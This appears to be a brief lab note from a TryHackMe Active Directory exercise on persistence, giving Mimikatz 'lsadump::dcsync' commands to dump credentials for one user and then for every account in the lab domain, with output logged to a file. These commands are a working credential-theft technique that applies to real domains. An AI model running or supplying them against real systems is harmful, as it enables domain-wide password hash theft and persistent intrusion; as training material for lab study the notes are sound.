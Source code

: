 # Persistence through Credentials

### Persistence through Credentials

```batch
lsadump::dcsync /domain:za.tryhackme.loc /user:<Your low-privilege AD Username>
```

DC sync every single account. To do this, we will have to enable logging on Mimikatz:

```batch
log <username>_dcdump.txt 
```

DC Sync all accounts

```batch
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all
```
